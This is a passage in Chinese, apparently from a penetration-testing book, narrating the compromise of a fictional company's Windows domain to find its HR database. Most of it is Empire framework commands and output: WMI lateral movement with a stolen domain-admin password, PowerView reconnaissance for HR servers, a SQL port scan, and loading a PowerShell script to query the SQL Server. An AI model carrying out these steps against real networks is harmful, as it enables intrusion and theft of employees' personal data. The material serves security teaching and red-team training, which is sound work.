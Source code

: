 第三个域沦陷了：svc_ps/Sheldon*01。

### 寻找数据
一旦拥有了域管理帐户，我们就可以开始考虑员工数据存储在哪里。我们当然可以通过查找share（share_finder模块）在这里和那里获得一些摘录，但是真正的数据一定保存在结构化数据库中。

我们使用WMI作为横向移动向量在众多HR服务器中的一个服务器上放置代理：
```
(Empire: salesFTP) > usemodule lateral_movement/invoke_wmi
(Empire: invoke_wmi) > set Listener FrontGun_List
(Empire: invoke_wmi) > set UserName GHBR\svc_ps
(Empire: invoke_wmi) > set Password Sheldon*01
(Empire: invoke_wmi) > set ComputerName SR0011.GBHR.CORP
(Empire: invoke_wmi) > run
[+] Initial agent VJAKEHA86D9AJDAG from 10.40.40.11 now active
(Empire: invoke_wmi) > interact VJAKEHA86D9AJDAG
(Empire: VJAKEHA86D9AJDAG) > rename HRAgent
(Empire: HRAgent) >
```

在服务器描述中查找关键字“HR”的简单查询会返回许多前景看好的结果：
```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/
get_computer
(Empire: get_computer) > set filter description=*HR*
(Empire: get_computer) > set FullData True
(Empire: get_computer) > run
Logoncount : 441
Badpasswordtime : 1/1/1601 1:00:00 AM
Description : Master HR database
Objectclass : CN=SR0040,CN=Computers,DC=GBHR,DC=CORP
Lastlogontimestamp : 3/26/2017 5:52:17 PM
Name : SR0040
```

最令我们高兴的是，管理员被教导选择有意义的服务器名称和描述文本。他们必须这样做，否则信息系统将难以管理。这使我们的工作更容易。人力资源数据库显然在SR0040.GBHR.CORP上。

由于它托管在Windows服务器上，我们可以大胆地假设数据库运行在Microsoft SQL server上，然后继续直接连接到它。但让我们花几秒钟来确认这个假设。

对常用的SQL端口进行快速端口扫描应该可以做到：Oracle的1521、MySQL的3306和SQL Server的1433（尽管在2008版本之后，端口往往是动态选择的）。
```
(Empire: HRAgent) > usemodule situational_awareness/network/portscan
(Empire: portscan) > use Ports {1433, 1521, 3306}
(Empire: portscan) > use Hosts SR0040.GBHR.CORP
(Empire: portscan) > run
Job started: Debug32_0plza
Hostname OpenPorts 
-------- --------- 
SR0040.GBHR.CORP 1433
```

很 完美！SQL Server的惊人之处在于它通常链接到Windows域。如果域沦陷，每个Microsoft SQL Server数据库也会沦陷。我们有一个域名管理帐户，所以理论上没有什么是遥不可及的。

但是，有时SQL数据库会限制对几个安全组的访问，因此我们需要成为正确的Active Directory组的一部分,那是一种形式。我们可以将svc_ps添加到任何我们认为必要的组中。

在任何情况下，为了与HR数据库交互，我们将PowerShell模块加载到Empire代理中，使其发出SQL请求。下面的脚本就可以了(参阅https://blog.jourdant.me/post/simple-sql-in-powershell)。
```
(Empire: HRAgent) > scriptimport /root/Invoke-SqlCommand.ps1
script successfully saved in memory
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40"
-Database "master" -Query "SELECT @@version" 
(Empire: HRAgent) >
Job Started: Debug32_aja7w
RunspaceId: ebe22441-f98b-44f7-9533-4c802821a2c5
Column1 : Microsoft SQL Server 2008 (RTM) – 10.0.1600.22(X64)
 Jul 9 2008 14:17:44
 Copyright (c) 1988-2008 Microsoft Corporation
```